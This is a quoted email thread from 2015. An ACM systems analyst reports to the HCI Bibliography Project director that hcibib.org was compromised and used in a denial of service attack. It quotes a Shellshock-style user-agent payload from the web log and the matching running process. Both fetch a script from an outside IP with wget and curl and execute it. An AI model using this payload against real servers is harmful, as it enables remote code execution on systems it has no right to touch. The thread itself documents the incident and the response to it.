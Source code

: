 >>>> Well, I am stumped. I don't know what script was used for the attack, and if I did, I am not sure how I would prevent further attacks.
>>>>
>>>> Gary Perlman, Director, HCI Bibliography Project
>>>> mailto:director@hcibib.org  http://hcibib.org/
>>>>
>>>> On Wed, 6 May 2015, Adam Greenberg wrote:
>>>>
>>>>> Hello Gary,
>>>>> I had to take the hcibib.org website offline tonight.   The site was used to execute a denial of service attack that took down the server.
>>>>> Here is the reference from the hcibib.org weblogs
>>>>>
>>>>> 62.75.145.250 - - [06/May/2015:12:12:39 -0400] "GET / HTTP/1.1" 200 10740 "-" "() { :; }; /bin/bash -c 'rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1'"
>>>>>
>>>>> I put the entire weblog for today to your /home/Perlman
>>>>>
>>>>> The request executed a denial of service attack that started this.
>>>>> apache   28593     1  0 12:12 ?        00:00:00 /bin/bash -c rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1
>>>>>
>>>>> Attached is a sample of what was running on the server.
>>>>>
>>>>> I have changed the default document root of the website until I hear from you.  I would prefer to bring the site back online restricted to the IP address that you will be connecting from so that you have time to properly examine you site and then we can open it back up.  Please let me know the IP address you will be connecting from and I will make the appropriate configuration changes.
>>>>>
>>>>> Thanks
>>>>> Adam
>>>>>
>>>>>
>>>>> Adam Greenberg
>>>>> Senior Systems Analyst
>>>>> Association for Computing Machinery
>>>>> 2 Penn Plaza
>>>>> Suite 701
>>>>> New York, NY 10121
>>>>> Office: 212-626-0573
>>>>> greenberg@acm.org
>>>>>
>>>>>
>>>>
>>>>
>>>
>>>
>>
>> --
>>
>
>
